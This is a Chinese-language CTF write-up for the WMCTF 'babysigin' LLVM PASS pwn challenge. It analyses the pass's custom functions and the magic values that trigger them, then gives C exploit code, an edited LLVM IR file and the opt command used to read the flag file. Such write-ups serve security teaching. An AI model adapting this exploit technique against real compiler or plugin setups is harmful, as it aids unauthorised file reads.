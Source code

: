 # babysigin
> 题目地址：
>

	首先我们拿到手的是`WMCTF.so`文件，IDA打开进行静态分析；

	既然这是一道LLVM PASS Pwn，我们首先需要知道做这种题目的时候是一个什么思路：

	首先找到`runOnFunction`是如何重写的，找到之后大致看下代码发现程序应该是调用四个函数，分别为`WMCTF_OPEN`，`;WMCTF_READ`，`WMCTF_MMAP`和`WMCTF_WRITE`。

## 静态分析
这一部分只会放部分分析代码，因为代码有点多。。。。

### WMCTF_OPEN
	首先是WMCTF_OPEN这个函数调用需要的字符串，即函数名；

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914105649302.png)

	中间一部分是进行了一些对文件名及路径的判断，`LoadInst`典型是从上层函数或外部环境输入的。

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914105822570.png)

	然后是调用父模块参数

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914105901919.png)

### WMCTF_READ
![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914110010062.png)

	和OPEN部分差不多，获取第一个操作数之后转换为`llvm::ConstantInt`类型，并检查其是否为`0x6666`，若满足，就会读取文件0x40大小的内容分到`mmap_addr`处。

### WMCTF_MMAP
![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914110356185.png)

	同上，第一个操作数为`0x7890`，就会通过`mmap`函数来开辟一块内存给`mmap_addr`。

### WMCTF_WRITE
![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914110516912.png)

	检查第一个操作数是否为`llvm::LoadInst`类型，如果`LoadInst`的操作数为`llvm::GlobalVariable`，则判断其值是否为`0x8888`，满足这些条件会把`mmap_addr`的内容写到`&dword_0 + 1`，并根据操作结果输出成功或错误信息。

### 总结调用函数所需满足条件
+ WMCTF_OPEN：
    - 参数必须是上层函数传过来的，并有四个嵌套层次去检查参数；
+ WMCTF_READ:
    - 第一个操作数为`0x6666`；
+ WMCTF_MMAP:
    - 第一个操作数为`0x7890`；
+ WMCTF_WRITE:
    - 第一个操作数为`0x8888`,并且必须为全局变量。

## 解题
	`LLVM PASS Pwn`脚本编写分为三种语言，首先写C/C++代码用来利用漏洞，然后将其编译为`.ll`文件，最后用python导入后利用pwntools与题目进行交互。

### exp
	我们的C代码需要满足上文中的所有条件：

```plain
void WMCTF_OPEN(char *name);
void WMCTF_READ(int cmd);
void WMCTF_MMAP(int cmd);
void WMCTF_WRITE(int cmd);
char *filename = "./flag";
char *flag = "./flag";
int cmd = 0x8888;
void f0(char* name);
void f1(char* name);
void f2(char* name);
void f3(char* name);


void func0(char *name) {
        WMCTF_OPEN(filename);
}

void func1(char* name) {
        func0(filename);
}

void func2(char* name) {
        func1(filename);
}

void func3(char *name) {
        func2(filename);
}

void func4(char *name) {
        func3(flag);
}

void func5() {
        flag = "./flag";
        func4(flag);
}

void funcmain() {
    WMCTF_MMAP(0x7890);
    WMCTF_READ(0x6666);
    WMCTF_WRITE(cmd);
}
```

	OK，现在我们写了一个符合所有条件的C文件，现在需要给他编译成`.ll`文件：

```shell
clang-14 -emit-llvm -S main.c -o main.ll
```

	直接生成的文件需要修改，不然打不通：

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914142406551.png)

	修改后`main.ll`内容：

```plain
; ModuleID = 'main.c'
source_filename = "main.c"
target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"

@.str = private unnamed_addr constant [7 x i8] c"./flag\00", align 1
@.addr = dso_local global i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i32 0, i32 0), align 8
@flag = dso_local global i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i32 0, i32 0), align 8
@cmd = dso_local global i32 34952, align 4

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func0(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @WMCTF_OPEN(i8* noundef %3)
  ret void
}

declare void @WMCTF_OPEN(i8* noundef) #1

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func1(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func0(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func2(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func1(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func3(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func2(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func4(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @flag, align 8
  call void @func3(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func5() #0 {
  store i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i64 0, i64 0), i8** @flag, align 8
  %1 = load i8*, i8** @flag, align 8
  call void @func4(i8* noundef %1)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @funcmain() #0 {
  call void @WMCTF_MMAP(i32 noundef 30864)
  call void @WMCTF_READ(i32 noundef 26214)
  %1 = load i32, i32* @cmd, align 4
  call void @WMCTF_WRITE(i32 noundef %1)
  ret void
}

declare void @WMCTF_MMAP(i32 noundef) #1

declare void @WMCTF_READ(i32 noundef) #1

declare void @WMCTF_WRITE(i32 noundef) #1

attributes #0 = { noinline nounwind optnone uwtable "frame-pointer"="all" "min-legal-vector-width"="0" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }
attributes #1 = { "frame-pointer"="all" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }

!llvm.module.flags = !{!0, !1, !2, !3, !4}
!llvm.ident = !{!5}

!0 = !{i32 1, !"wchar_size", i32 4}
!1 = !{i32 7, !"PIC Level", i32 2}
!2 = !{i32 7, !"PIE Level", i32 2}
!3 = !{i32 7, !"uwtable", i32 1}
!4 = !{i32 7, !"frame-pointer", i32 2}
!5 = !{!"Ubuntu clang version 14.0.0-1ubuntu1.1"}
```

```plain
opt-14 -load ./WMCTF.so -WMCTF -enable-new-pm=0 ./main.ll
```

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914142330542.png)

改完之后

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914150504565.png)

